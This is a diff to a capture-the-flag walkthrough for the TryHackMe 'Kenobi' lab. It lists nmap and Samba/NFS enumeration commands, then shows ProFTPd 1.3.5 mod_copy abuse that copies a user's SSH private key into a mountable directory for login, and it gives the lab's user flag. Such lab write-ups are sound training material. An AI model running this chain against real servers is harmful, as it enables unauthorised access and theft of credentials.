

commit

Changed region(s): [[0.183, 0.0877, 0.2745, 0.2338], [0.0, 0.526, 0.061, 0.6721], [0.0, 0.0, 0.061, 0.1169]]

diff --git a/Kenobi/Kenobi_wlakthrough.md b/Kenobi/Kenobi_wlakthrough.md
@@ -6,7 +6,53 @@
 - Scan the machine with nmap, how many ports are open?
     - sudo nmap -sV -sC -oN ./nmap_kenobi_result.txt [IP]
     - **Answer** : 7
-    - picture:<br>
+    - pictures:<br>
                 [Kenobi_1.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_1.png)<br>
                 [Kenobi_2.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_2.png)
-    
+------------------------
+### Task 2 - Enumerating Samba for shares
+- Using the nmap command above, how many shares have been found?
+    - nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [IP]
+    - **Answer** : 3
+    - pictures:<br>
+                [Kenobi_3.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_3.png)
+- Check Enonymous share
+    - smbclient //[IP]/anonymous
+    - Try without password
+    - Once you're connected, list the files on the share. What is the file can you see?
+    - **Answer** : log.txt
+    - picture: [Kenobi_4.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_4.png)
+- Download the file **log.txt**. We can use SMB to do this action (recursive)
+    - smbget -R smb://[IP]/anonymous
+    - picture: [Kenobi_5.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_5.png)
+-  Port 111 is access to a network file system.
+    - nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
+    - What mount can we see?
+    - **Answer** : /var
+    - picture: [Kenobi_6.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_6.png)
+------------------------
+### Task 3 - Gain initial access with ProFtpd
+- What is the version?
+    - Check the initial nmap scan.
+    - **Answer** : 1.3.5
+    - picture: [Kenobi_1.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_1.png)
+- How many exploits are there for the ProFTPd running?
+    - We can use searchsploit to find exploits for this particular version.
+    - **Answer** : 3
+    - picture: [Kenobi_8.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_8.png)
+- One exploit is related to "mod copy". Check this link to understand more about [mod copy](http://www.proftpd.org/docs/contrib/mod_copy.html)
+    - Connect to the machine by using **mod copy**
+        - sudo nc [IP] [port]
+        - SITE CPFR /home/kenobi/.ssh/id_rsa --> Copy the private key
+        - SITE CPTO /var/tmp/id_rsa --> Paste to /var/tmp because var directory is reachable with Anonymous
+        - picture: [Kenobi_9.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_9.png)
+    - From the local machine
+        - mkdir /mnt/kenobiNFS
+        - mount machine_ip:/var /mnt/kenobiNFS
+        - ls -la /mnt/kenobiNFS
+        - We can see all directories & files under /var
+        - - picture: [Kenobi_10.png](picture: https://github.com/LNB283/THM/blob/main/Kenobi/Pictures/Kenobi_10.png) 
+    - Last steps :
+        - Copy the private key and log to the machine through SSH with kenobi as username
+        - Open /home/kenobi/user.txt
+    - **Answer** : d0b0f3f53b6caa532a83915e19224899
